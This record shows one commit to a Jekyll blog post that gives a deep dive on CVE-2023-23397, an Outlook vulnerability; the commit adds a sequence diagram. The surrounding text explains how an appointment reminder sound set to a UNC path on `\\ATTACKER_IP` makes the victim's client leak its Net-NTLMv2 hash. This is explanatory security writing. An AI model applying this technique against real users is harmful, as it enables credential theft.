

Before and after one commit to s5dev/s5dev.github.io, a Jekyll site: the page built from _posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md, in a window 1280 px wide and 900 px high, scrolled down 821 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; grey boxes are pictures that could not be loaded.

Commit message:
updated with sequential diagram

```diff
--- a/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
+++ b/_posts/2023-03-25-CVE-2023-23397-vulnerability-deep-dive-and-poc.md
@@ -17,6 +17,8 @@
 > TLDR: When the Malicious scheduled appointment email sent by attacker lands in the Victims Outlook Client, the client leaks the Net-NTLMv2 Credential Hash to the Attacker controlled SMB Server with Zero Interaction on Victim side
 
 Outlook Windows desktop client feature allows to schedule appointment, send emails from the desktop. However, Appointment Scheduling allows `sender` to set a `custom reminder sound`. The surprise fact here is that this custom reminder sound file can be loaded from shared network (UNC Path), for example, `\\ATTACKER_IP\Share\Sounds\reminder.wav` which specifically uses SMB v2 (Probably) protocol. So, When the sender aka `attacker` sets the Outlook Appointment Reminder sound to `UNC path` (Universal naming convention path) the receiver Outlook client accepts the meeting and adds to the Calendar. When the Appointment duration approaches and Outlook starts reminding the receiver or `victim` the Outbound call is made from the `victim machine to Attacker controlled UNC Path` to load the custom reminder sound (say ringtone). The plot twist is this SMB Negotiation between the `victim outlook client` and `attacker controlled SMB server` actually leaks the victims `Net-NTLMv2 Credential hash` to the attacker.
+
+![CVE-2023-23397-Sequential-diagram-to-understand-exploit](/assets/media/CVE-2023-23397-sequential-diagram.png)
 
 ### Quick Note on Net-NTLMv2 Credentials
 
```
Also changed, not shown: assets/media/CVE-2023-23397-sequential-diagram.png (added).
